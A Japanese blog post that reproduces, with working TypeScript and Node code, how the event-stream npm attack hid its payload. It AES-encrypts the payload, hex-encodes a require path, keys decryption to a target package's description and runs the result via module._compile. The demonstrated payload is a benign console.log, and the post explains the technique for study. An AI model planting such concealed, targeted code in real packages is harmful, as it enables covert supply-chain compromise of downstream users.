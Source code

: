 # 概要

本記事は直近で起きた npm パッケージ event-stream への攻撃のうち、任意のコードを忍ばせる手法の追試です。

⚠️ 今回は攻撃者がパッケージのメンテナであったために発生したことであり、この記事を読んで誰でも攻撃できるようになるわけではありません。
⚠️ 念のためですが、悪用しないようにお願いします。

# コード

https://github.com/kik4/npm-evil-code-injection

# ポイント

今回の攻撃では minify したコードにのみ攻撃コードが挿入されていました。ただ minify しただけでなく、一見してそれとわからないようにコードが隠蔽されていました。その手法を実際にやってみます。
この記事で確かめる隠蔽手法は次の３つです。

1. 攻撃コードの暗号化
2. 攻撃実行コードの require パスの隠蔽
3. package.json の description を見て攻撃対象を限定

バージョン操作やパッケージの publish などは取り扱いません。

# 攻撃手順

今回題材とするコードは次の通りです。

```ts
// 正常なコード
export default () => console.log("This is good code.");
```

```ts
// 攻撃コード
console.log("This is evil code.");
```

上記の正常なコードに攻撃コードを忍ばせます。そしてこのパッケージを実行する npm パッケージの description が`run evil code`の時だけ攻撃コードが実行されるようにしていきます。

## 1. 攻撃コードの暗号化 & 3. description で攻撃対象を限定

まず攻撃コードを AES 暗号化します。暗号化は node コマンドで REPL を起動させてちゃっちゃとやってしまいます。
暗号化する文字列は攻撃コードである`console.log("This is evil code.")`ですね。
パスワードは description で起動させる`run evil code`です。次の項で書きますが復号化時に実行しているパッケージの description を拾って与えることで、攻撃対象を限定します。

```js
var code = 'console.log("This is evil code.")';
var password = "run evil code";
var cipher = require("crypto").createCipher("aes-256-cbc", password);
var encoded = cipher.update(code, "utf8", "hex") + cipher.final("hex");
encoded;
```

結果は`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`です。無事に元の攻撃コードがわからなくなりました。

## 2. 攻撃実行コードの require パスの隠蔽

### index.ts

正常なコードを書いたファイルを index.ts。攻撃コードを忍ばせ、攻撃を実行するコードを書いたファイルを data.ts とします。
まずは index.ts から data.ts を require します。ただしトランスパイルされるので実際のファイル名は`./data.js`ですね。これの default の実行が攻撃コードの実行になります。

```ts
export default () => {
  require("./data.js").default();
  console.log("This is good code.");
};
```

今回はこの require の中の文字列が hex エンコードされていました。なので`./data.js`もエンコードしましょう。
ここでも node でちゃっとやってしまいます。

```js
Buffer.from("./data.js").toString("hex");
// '2e2f646174612e6a73'
```

結果は`2e2f646174612e6a73`になりました。これを require の中にデコード処理を入れて書き換えます。

```ts
export default () => {
  require(Buffer.from("2e2f646174612e6a73", "hex").toString()).default();
  console.log("This is good code.");
};
```

一見して何のファイルが読み込まれているかわからなくなりましたね。

### data.ts

次に data.ts の用意です。この中で暗号化したコードの複合と実行を行います。
暗号化された攻撃コードは`cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f`。
これを実行パッケージの package.json の description を格納している`process.env.npm_package_description`で復号し、それを実行してやります。

```ts
import * as crypto from "crypto";

// _compile()の定義が無かったので追加
declare global {
  interface NodeModule {
    _compile(arg1: string, arg2: string): any;
  }
}

export default () => {
  // 攻撃コード
  const data =
    "cfdc36e155f1213c266810ac757ceb743e036c6aa08703d564010029511c7af099387eb23604e1b308233f4eba23dd0f";
  // 復号器
  const decipher = crypto.createDecipher(
    "aes256",
    process.env.npm_package_description || ""
  );

  // パスワードが違うとこけるのでキャッチ
  try {
    // 復号
    const payload =
      decipher.update(data, "hex", "utf8") + decipher.final("utf8");
    // 実行
    module._compile(payload, "");
  } catch {}
};
```

以上で攻撃コードの仕込みは完了です。

# 攻撃を受けてみる

攻撃される側のパッケージを用意します。攻撃を仕込んだパッケージは公開してもしょうがないので今回はローカルインポートにします。
package.json では攻撃コードが実行されるように description を`run evil code`にしておきます。

```json
{
  // 略
  "description": "run evil code",
  // 略
  "dependencies": {
    "library": "../library" // ローカルインポート
    // 略
  }
}
```

実行コードはこんな感じ。

```ts
import library from "library";
library();
```

これを実行した出力結果は以下の通りです。

```
// 期待する結果
// This is good code.

// 実際の結果
This is evil code.
This is good code.
```

無事に攻撃コードが実行されました！
description を書き換えると`This is evil code.`が出てきません。ちゃんと攻撃対象を絞れました。

# 参考

[2018/11/27 に判明した npm パッケージ乗っ取りについて](https://qiita.com/azs/items/b15bc456bee3a7892950)
